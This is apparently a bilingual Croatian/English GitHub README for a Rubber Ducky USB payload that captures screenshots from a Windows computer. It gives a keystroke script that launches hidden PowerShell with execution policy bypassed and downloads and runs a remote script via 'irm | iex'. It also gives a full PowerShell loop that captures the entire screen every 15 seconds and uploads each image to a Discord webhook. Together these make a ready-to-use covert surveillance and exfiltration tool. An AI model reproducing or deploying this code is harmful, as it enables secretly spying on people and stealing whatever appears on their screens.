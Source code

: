 ### README.md (na Hrvatskom)

# Screenshot na Discord Webhook

Ova skripta omogućuje automatsko slanje screenshotova s vašeg računala na Discord kanal koristeći webhook. Skripta koristi PowerShell za snimanje zaslona, a Rubber Ducky uređaj za automatsko pokretanje procesa.

## Preduvjeti

1. **Rubber Ducky uređaj** (ili kompatibilni uređaj).
2. **PowerShell** instaliran na računalu (Windows).
3. **Discord webhook URL** za slanje screenshotova.

## Instalacija i Postavljanje

### 1. Priprema PowerShell Skripte

Prvo, trebate imati skriptu koja će automatski preuzeti sliku ekrana i poslati je na vaš Discord kanal. Ovu skriptu možete pohraniti na **GitHub** ili bilo koji drugi poslužitelj.

1. Spremite PowerShell skriptu (`screenshot.ps1`) na GitHub ili neki drugi poslužitelj. Ako koristite GitHub, možete je pohraniti kao **gist**.

2. Zamijenite `DISCORD_WEBHOOK_HERE` u Rubber Ducky skripti sa stvarnim Discord webhook URL-om.

### 2. Rubber Ducky Skripta

Ovdje je skripta koju treba prenijeti na vaš **Rubber Ducky uređaj**. Ova skripta će otvoriti PowerShell, preuzeti PowerShell skriptu s vašeg poslužitelja i izvršiti ju.

**Rubber Ducky Skripta:**

```plaintext
DELAY 1000
GUI r
DELAY 750
STRING powershell -NoP -Ep Bypass -W H -C $dc='DISCORD_WEBHOOK_HERE'; irm linkzaps1fajlgithub | iex
ENTER
```

Zamijenite `linkzaps1fajlgithub` s URL-om na kojem je pohranjena vaša PowerShell skripta.

### 3. PowerShell Skripta (screenshot.ps1)

Ovdje je sadržaj PowerShell skripte koja će preuzeti screenshot i poslati ga na Discord webhook.

```powershell
$hookurl = $dc
$seconds = 15
Add-Type -AssemblyName System.Windows.Forms
Add-type -AssemblyName System.Drawing
while ($true) {
    $Filett = "$env:temp\SC.png"
    $Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
    $Width = $Screen.Width
    $Height = $Screen.Height
    $Left = $Screen.Left
    $Top = $Screen.Top
    $bitmap = New-Object System.Drawing.Bitmap $Width, $Height
    $graphic = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)
    $bitmap.Save($Filett, [System.Drawing.Imaging.ImageFormat]::Png)
    curl.exe -F "file1=@$Filett" $hookurl
    Remove-Item -Path $Filett
    Start-Sleep $seconds
}
```

### 4. Pokretanje

1. Spojite **Rubber Ducky uređaj** na računalo.
2. Skripta će automatski otvoriti PowerShell, preuzeti i pokrenuti PowerShell skriptu koja snima screenshotove.
3. Svakih 15 sekundi, skripta će snimiti sliku ekrana i poslati je na Discord kanal.

## Upute za prilagodbu

* **Interval između screenshotova**: Ako želite promijeniti interval između slanja screenshotova, uredite vrijednost `$seconds` u PowerShell skripti.
* **Webhook URL**: Promijenite `DISCORD_WEBHOOK_HERE` u stvarni URL vašeg Discord webhook-a.

---

### README.md (in English)

# Screenshot to Discord Webhook

This script allows automatic screenshot capturing from your computer and sends them to a Discord channel using a webhook. It uses PowerShell to capture the screen and a Rubber Ducky device to automate the process.

## Prerequisites

1. **Rubber Ducky device** (or a compatible device).
2. **PowerShell** installed on your computer (Windows).
3. **Discord webhook URL** for sending screenshots.

## Installation and Setup

### 1. Preparing the PowerShell Script

First, you need to have a script that will automatically capture the screen and send it to your Discord channel. You can store this script on **GitHub** or any other server.

1. Save the PowerShell script (`screenshot.ps1`) on GitHub or any other server. If you're using GitHub, you can store it as a **gist**.

2. Replace `DISCORD_WEBHOOK_HERE` in the Rubber Ducky script with your actual Discord webhook URL.

### 2. Rubber Ducky Script

Here is the script you need to upload to your **Rubber Ducky device**. This script will open PowerShell, download the PowerShell script from your server, and execute it.

**Rubber Ducky Script:**

```plaintext
DELAY 1000
GUI r
DELAY 750
STRING powershell -NoP -Ep Bypass -W H -C $dc='DISCORD_WEBHOOK_HERE'; irm linkzaps1fajlgithub | iex
ENTER
```

Replace `linkzaps1fajlgithub` with the URL where your PowerShell script is stored.

### 3. PowerShell Script (screenshot.ps1)

Here is the content of the PowerShell script that will capture the screenshot and send it to the Discord webhook.

```powershell
$hookurl = $dc
$seconds = 15
Add-Type -AssemblyName System.Windows.Forms
Add-type -AssemblyName System.Drawing
while ($true) {
    $Filett = "$env:temp\SC.png"
    $Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
    $Width = $Screen.Width
    $Height = $Screen.Height
    $Left = $Screen.Left
    $Top = $Screen.Top
    $bitmap = New-Object System.Drawing.Bitmap $Width, $Height
    $graphic = [System.Drawing.Graphics]::FromImage($bitmap)
    $graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)
    $bitmap.Save($Filett, [System.Drawing.Imaging.ImageFormat]::Png)
    curl.exe -F "file1=@$Filett" $hookurl
    Remove-Item -Path $Filett
    Start-Sleep $seconds
}
```

### 4. Running

1. Plug in the **Rubber Ducky device** to the computer.
2. The script will automatically open PowerShell, download, and run the PowerShell script that captures the screenshots.
3. Every 15 seconds, the script will take a screenshot and send it to the Discord channel.

## Customization Instructions

* **Screenshot Interval**: If you want to change the interval between screenshots, modify the `$seconds` value in the PowerShell script.
* **Webhook URL**: Change `DISCORD_WEBHOOK_HERE` to your actual Discord webhook URL.

---

Ovaj README je sada pripremljen za oba jezika i daje jasne upute za korištenje skripte na oba jezika.
